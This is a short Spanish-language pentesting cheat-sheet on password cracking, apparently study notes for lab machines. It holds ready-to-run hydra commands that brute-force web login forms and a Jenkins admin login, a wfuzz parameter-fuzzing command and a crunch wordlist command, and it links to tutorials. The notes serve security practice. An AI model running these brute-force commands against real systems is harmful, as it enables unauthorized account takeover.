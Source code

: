 # Crackeo de contraseñas

## Web

### http - post fuerza bruta con hydra
```
hydra -L users -P passwords 10.10.227.238 http-post-form "/login:username=^USER^&password=^PASS^:F=is incorrect"

hydra -l mike -P /tools/wordlists/rockyou.txt -s 8888 10.10.34.216 http-post-form "/login:user=^USER^&password=^PASS^:Invalid" 
```

- Jenkins admin brute

```bash
hydra -l admin -P /tools/wordlists/rockyou.txt -f 127.0.0.1 -s 9000 http-get /
```

### http - post brute con ffuf

### fuzzing de parametros con wfuzz
```
wfuzz --hh 0 -u http://10.10.39.85/api/site-log.php\?date\=FUZZ  -w wordlist
```
## Generar diccinarios

### Crunch

crunch 15 15 -t v7xUVE2e5bjUc@@ -o gloriapass.txt

ref: 
[Cómo utilizar Crunch: Una Guía Completa](https://blog.ehcgroup.io/2019/01/09/15/29/15/4518/como-utilizar-crunch-una-guia-completa/hacking/ehacking/)





### Referencias
- [Fuzz faster with fuzz](https://medium.com/quiknapp/fuzz-faster-with-ffuf-c18c031fc480)
- https://notes.benheater.com/books/web/page/use-ffuf-to-brute-force-login